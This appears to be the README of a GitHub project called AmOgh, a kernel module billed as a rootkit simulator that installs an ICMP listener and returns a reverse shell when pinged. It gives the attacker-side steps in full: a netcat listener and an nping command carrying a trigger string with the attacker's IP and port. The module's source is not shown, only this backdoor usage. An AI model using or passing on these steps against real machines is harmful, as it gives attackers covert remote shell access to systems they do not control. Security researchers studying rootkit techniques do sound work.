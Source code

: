 # AmOgh : Kernel module invoked reverse shell (Rootkit-Simulator)
=================================================================
When this kernel module is installed it invokes an icmp listener script, this script sends a reverse shell in response to an attacker ping.

Using nc -l [PORT] and then in a separate window running
nping --icmp -c 1 -dest-ip [victim ip] --data-string 'amogh_$H3LL [attacker ip] [PORT]'

we can ping the victim machine and send ourselves back a reverse shell. Make sure to have a netcat listener waiting on the port you specify before pinging. This demonstrates how a user-land script/app can be invoked from the kernel. This functionality will be added as part of the final rootkit-simulator
